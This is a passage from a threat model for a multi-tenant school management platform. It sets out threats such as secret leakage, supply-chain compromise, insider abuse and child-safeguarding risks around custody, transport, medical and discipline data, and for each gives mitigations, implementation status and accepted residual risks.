`DELETE` on all tables in `platform` to the app role; the audit tables must narrow that explicitly
when they are created.

---

### T-21 · Secret leakage into the client bundle
**STRIDE:** I, E · **Impact:** Critical · **Likelihood:** Medium

**Scenario.** A developer needs the API to work from a Client Component, so they add a
`NEXT_PUBLIC_CORE_API_*` credential. Next.js inlines anything prefixed `NEXT_PUBLIC_` into the JavaScript
served to every browser. The key is now in a public bundle, in a CDN cache, and in the GitHub
Actions build log. Firebase *web* config is genuinely public and safe; a service-account JSON or a
provider secret is not, and the two look similar to someone in a hurry.

**Mitigation.** `AGENTS.md` prohibition 5. No `fetch` to the core API from a Client Component — all
calls go through `server/api-client`, which is server-only. Secret scanning on every push and on
pull requests, plus a build-time assertion that no `NEXT_PUBLIC_*` value matches a private-key or
long-random-token pattern. Bundle inspection in CI for known secret shapes. Rotation procedure for
when it happens anyway, because it will.

**Lives in.** `apps/web/src/server/api-client`, CI secret scanning — Status: planned.

---

### T-22 · Dependency and supply-chain compromise
**STRIDE:** T, E · **Impact:** Critical · **Likelihood:** Medium

**Scenario.** A transitive npm package used by a charting library publishes a post-install script
that reads `process.env` in CI and exfiltrates the deployment token. Or the Java side pulls a
compromised release of a JSON library and gains a deserialization gadget. The blast radius is every
tenant at once, which is the defining property of a multi-tenant platform.

**Mitigation.** Lockfiles committed and required. `npm ci`, never `npm install`, in CI. Dependency
scanning on every pull request with a build failure on High and Critical. Base container images
pinned by digest and scanned. The Spring Boot BOM as the single source of truth for managed versions
(`pom.xml` already does this deliberately) so we do not hand-pick versions that have not been tested
as a set. CI jobs run with minimal, short-lived credentials and no access to production secrets.
SBOM generated per release so "are we affected" is answerable in minutes.

**Lives in.** `.github/workflows/` — Status: planned; no workflow files exist in the repository yet.
`services/core-api/pom.xml` BOM discipline — Status: **implemented**.

---

### T-23 · Insider abuse by school ICT staff
**STRIDE:** I, T, E, R · **Impact:** High · **Likelihood:** Medium

**Scenario.** The ICT officer holds school admin, and legitimately needs it. They browse the health
module out of curiosity about a colleague's child, export the full student list with addresses to a
spreadsheet and take it to their next job, or reset a teacher's password and sign in as them to
change a mark.

**Mitigation.** Granular permissions, so "school admin" does not implicitly include clinical or
disciplinary access — `is_child_sensitive` permissions are assigned individually, with a reason.
Reading a health or discipline record writes an audit entry with a reason prompt, and "who read my
child's medical record" is answerable. Bulk export is a separate, sensitive permission that is rate
limited, watermarked with the exporting user, and notified to the headmaster. Password reset does
not grant access: it sends a reset link to the user, and an admin can never set a password directly.

**Lives in.** `V0002__identity_rbac.sql` (`is_child_sensitive`, `membership_permission_grant`) —
Status: **implemented**. Reason-prompted reads, export controls, audit — Status: planned.

---

### T-24 · Support-access abuse
**STRIDE:** I, E, R · **Impact:** High · **Likelihood:** Low

**Scenario.** A platform support engineer investigating a billing complaint uses their access to read
a school's discipline records, or keeps a standing grant open for six months "because it is easier",
turning a time-boxed control into permanent access.

**Mitigation.** `identity.support_access_grant` requires a reason of at least ten characters, an
explicit non-empty list of permission codes — never "all" — and an expiry window enforced by a check
constraint. Its RLS policy lets the **school** read its own grant history, so the audit is available
to the party whose data it is, not only to us. The UI banners a support session visibly. Every action
taken under a grant is audited with the grant id attached. Approval is by a second platform person.

**Lives in.** `V0002__identity_rbac.sql` — Status: **implemented** (schema, constraints, policy).
Approval workflow, banner, expiry sweep and per-action attribution — Status: planned.

---

## 5. Child-specific threats

These are the threats that make a school system different from a CRM with fees. A generic threat
model will not surface them, and a generic control set will not cover them.

---

### T-25 · A guardian who should no longer have access
**STRIDE:** I, E · **Impact:** Critical · **Likelihood:** Medium

**Scenario.** A custody order removes a parent's right to contact or to collect. The school knows;
the system does not. The parent's portal account still shows the child's timetable, their class, the
transport route, and the pickup time — a precise answer to "where will my child be at 15:20 on
Thursday". The mirror-image failure is equally real: access revoked from a parent who was entitled
to it, on the word of the other parent, with no record of who asked.

**Mitigation.** The student–guardian link carries its own lifecycle status and effective dates, and
revocation is immediate across portal, notifications and document access — not "at next login".
Revoking a guardian link is a sensitive action requiring a recorded reason and a named authoriser,
because the decision is legally consequential in both directions. A revoked guardian's outstanding
sessions are terminated by advancing `sessions_valid_from`. Contact-restriction status suppresses
that guardian from every broadcast audience, including class-wide SMS, where the failure mode is one
careless "select all". Collection and transport visibility are separately flagged from academic
visibility, because a parent may retain the right to see results and lose the right to know the route.

**Lives in.** `guardians/StudentGuardianLink`, `communications/AudienceResolver`,
`transport/RouteVisibilityPolicy` — Status: planned.

---

### T-26 · Address and route exposure via the transport module
**STRIDE:** I · **Impact:** Critical · **Likelihood:** Medium

**Scenario.** The transport screen is built for the operations officer, who needs the full manifest:
every child on Route 4, their stop, their pickup time, their home address. It is then reused for the
parent view with a client-side filter, or exported to a spreadsheet that circulates among drivers on
WhatsApp. A driver's phone is stolen. The result is a document that tells a stranger exactly which
named child waits alone at a given junction at 06:40.

**Mitigation.** The parent view is a different endpoint with a different projection, not the same
payload filtered in the browser (`AGENTS.md` §4). A driver sees stop times and a headcount, and the
names of children assigned to their own vehicle for the current day only — never addresses, never
guardian phone numbers beyond an in-app call button that does not reveal the number. Full manifests
with addresses are a sensitive, audited, watermarked export. Route and stop data is excluded from
SMS and email bodies. Retention: historical route assignments are pruned to the current academic
year plus one.

**Lives in.** `transport/` projections and access policies, export controls — Status: planned.

---

### T-27 · Medical data over-exposure
**STRIDE:** I · **Impact:** Critical · **Likelihood:** Medium

**Scenario.** An infirmary visit is recorded with a clinical note. The note then appears in a
general "student timeline" widget on the class teacher's dashboard, or in the notification body
"Kofi was seen at the infirmary for a suspected seizure", delivered by SMS through a third-party
provider and read by whoever picks up the family's shared phone. Nobody decided to disclose it; the
data simply flowed into a component that was not written with it in mind.

**Mitigation.** `health` is a restricted module with its own `is_child_sensitive` permissions, not a
section of the student record that inherits student-read. Clinical detail never enters a
notification body, a push payload, a log line, an analytics read model, or a shared dashboard
widget — the message is "please contact the infirmary". A defined subset (allergies, life-threatening
conditions, emergency contact) is available to staff who need it for safety, and that subset is an
explicit allow-list, never "everything except". Every read of a clinical note is audited with the
reading user and the reason.

**Lives in.** `health/` module boundary, `communications/` template rules, the logging deny-list in
`SECURITY.md` §13 — Status: planned. `identity.permission.is_child_sensitive` — Status:
**implemented**.

---

### T-28 · Discipline records visible on shared dashboards
**STRIDE:** I · **Impact:** High · **Likelihood:** Medium

**Scenario.** The staffroom has a wall-mounted screen showing the class dashboard. A "recent
incidents" panel names a student and the sanction. Parents walk past it on open day. Variant: the
incident appears in a report-card comment automatically, so a disciplinary matter that was resolved
informally becomes a permanent document delivered to the family and, later, to a prospective school.

**Mitigation.** Discipline is a restricted module with pastoral-role permissions, not a class-wide
panel. No discipline content on any dashboard that can be displayed on a shared screen, and no
automatic propagation into report cards — inclusion is an explicit, authorised editorial act.
Incidents carry a retention policy and an expungement path, because a record created when a child is
eleven should not follow them at eighteen. A student's own portal does not surface a discipline
record before the school has spoken to the family.

**Lives in.** `discipline/` module boundary, dashboard composition rules, retention job — Status:
planned.

---

### T-29 · Messaging misuse between staff and students
**STRIDE:** I, R · **Impact:** Critical · **Likelihood:** Medium

**Scenario.** Direct messaging between a staff member and a student is exactly the channel a
safeguarding policy exists to control. End-to-end encryption, which protects families from us,
also means we cannot read the content — so the control cannot be content inspection, and pretending
otherwise would be dishonest. The risk is a one-to-one, out-of-hours, unobserved channel between an
adult and a child that leaves no trace anyone can act on.

**Mitigation.** Staff-to-student one-to-one messaging is **off by default** at tenant level and
requires a deliberate school decision to enable. Where it is enabled, metadata — participants,
timestamps, message counts, not content — is retained and visible to a designated safeguarding lead,
and the participants are told at the point of first message that this is the case. Out-of-hours
initiation raises a metadata-level flag. Group channels with a second staff member present are the
default shape offered in the UI. Deleting a conversation does not delete its metadata record.
Because content is genuinely unreadable to us, this is a deterrent and detection control, not a
prevention control, and the documentation says so to the schools.

**Lives in.** `messaging/` device registry and envelope metadata, tenant policy settings,
`docs/E2EE_CHAT.md` — Status: planned.

---

## 6. Residual risks we accept and why

Everything here is a conscious decision with a named cost, not an oversight. Each is revisited at
the cadence stated. Accepting a risk is a decision a threat model is allowed to make; forgetting a
risk is not.

**RR-1 · A compromised school admin can read everything that role legitimately reaches.**
Granular permissions, audit and notification limit and expose the damage; they do not prevent it. A
school that concentrates every permission in one person has made an operational choice we surface in
onboarding but cannot override — the alternative is a product no small school can staff.
*Mitigated by:* detection and audit. *Revisit:* annually.

**RR-2 · Platform staff with production database access can, in principle, read tenant data.**
Break-glass access is credentialed separately, alerted on, and audited outside the application. We
are not encrypting tenant data with per-tenant keys held by the school: it would break reporting,
search and the ledger, and would move the key-loss risk onto schools least able to carry it.
*Mitigated by:* separation of the break-glass path, alerting, contractual and disciplinary controls.
*Revisit:* when a tenant contractually requires customer-managed keys.

**RR-3 · Firestore metadata reveals communication patterns.**
Who messages whom, when, and how often is visible to us and to Google even though content is not.
Padding and mixing would cost more than the threat justifies for this product.
*Mitigated by:* minimal metadata retention, documented plainly to schools. *Revisit:* if a school
raises it.

**RR-4 · SMS is not a confidential channel.**
It transits a third-party provider and lands on a phone that is often shared within a household.
We accept SMS for notification-of-existence only, never for content. This is why "please contact the
infirmary" is a design rule rather than a style preference.
*Mitigated by:* template review; no sensitive content in any SMS body. *Revisit:* never — this is
a property of SMS.

**RR-5 · A parent who forwards a signed document URL has disclosed it.**
Short TTLs reduce the window; they do not stop a determined share. Watermarking report cards with
the requesting account makes the source traceable after the fact.
*Mitigated by:* short TTL, watermarking. *Revisit:* if a school reports an incident.

**RR-6 · Guardian MFA is optional.**
Requiring MFA for guardians on shared feature phones would lock families out of fee payment and
result access, which does more harm than the residual takeover risk. Staff MFA is mandatory because
staff hold the data of many children rather than their own.
*Mitigated by:* breached-password rejection, per-identifier throttling, new-device notification.
*Revisit:* when SMS-free MFA is usable on the devices Ghanaian guardians actually carry.

**RR-7 · We have no formal certification, and this document does not claim one.**
Controls here are *aligned with* OWASP ASVS and with Ghana's Data Protection Act 2012 (Act 843);
accessibility work is *aligned with* WCAG 2.2 AA. No external audit has been performed against this
system. Saying "compliant" or "certified" in any artefact of this project is a factual error, not a
marketing flourish.
*Mitigated by:* honest language. *Revisit:* if and when an audit is actually commissioned.

**RR-8 · Most of this document describes intent, not shipped code.**
As of 2026-09-18 the repository holds two migrations and a `pom.xml`. The threats are real now; most
mitigations are not yet built. That gap is the largest single risk on this page, and the only
honest mitigation is to build them in the order this document ranks them.
*Revisit:* every release train, by re-checking every **Planned** marker against the tree.
